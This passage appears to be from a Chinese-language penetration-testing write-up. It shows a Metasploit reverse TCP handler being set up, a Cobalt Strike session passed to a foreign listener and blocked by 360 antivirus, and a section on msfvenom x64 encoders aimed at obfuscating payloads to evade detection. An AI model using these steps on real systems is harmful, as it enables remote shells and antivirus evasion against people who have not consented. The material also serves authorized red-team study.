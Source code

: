 

```


|  | use exploit/multi/handler |
| --- | --- |
|  | msf6 exploit(multi/handler) > set Lhost 192.168.111.10 |
|  | Lhost => 192.168.111.10 |
|  | msf6 exploit(multi/handler) > set lport 4444 |
|  | lport => 4444 |
|  | msf6 exploit(multi/handler) > run |
|  |  |
|  | [*] Started reverse TCP handler on 192.168.111.10:4444 |


```

**在 cs 上**


添加一个 foregin 的监听器


![image-20240926125408241](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039685-124155007.png)
右键选择 spawn


![image-20240926125551176](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039685-1754014238.png)


选择刚建立的 foregin 监听器


![image-20240926125641536](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184038931-566941952.png)


![image-20240926125912855](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039034-1357641825.png)


看到失败了，应该是被 360 给拦截了


#### b）msf 混淆(成功)


看一下编码器



```


|  | msfvenom -l encoder | grep x64 |
| --- | --- |
|  | x64/xor                       normal     XOR Encoder |
|  | x64/xor_context               normal     Hostname-based Context Keyed Payload Encoder |
|  | x64/xor_dynamic               normal     Dynamic key XOR Encoder |
|  | x64/zutto_dekiru              manual     Zutto Dekiru |
|  |  |


```
